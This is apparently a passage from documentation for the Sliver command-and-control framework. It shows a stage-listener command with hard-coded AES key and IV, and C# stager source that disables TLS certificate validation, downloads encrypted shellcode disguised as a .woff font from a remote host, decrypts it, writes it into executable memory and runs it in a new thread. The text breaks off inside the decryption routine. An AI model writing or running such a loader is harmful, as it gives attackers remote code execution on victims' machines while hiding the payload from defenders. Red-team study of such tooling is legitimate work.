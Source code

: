```
stage-listener --url http://192.168.0.52:80 --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

If aes-encrypt-iv is not set it defaults to `0000000000000000`. After the stage generation is completed AES key and iv are displayed. Note that this example does not include compression:

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "http://192.168.24.128:8443/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            List<byte> l = new List<byte> { };

            for (int i = 16; i <= shellcode.Length -1; i++) {
                l.Add(shellcode[i]);
            }

            byte[] actual = l.ToArray();

            byte[] decrypted;

            decrypted = Decrypt(actual, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
            Marshal.Copy(decrypted, 0, addr, decrypted.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
```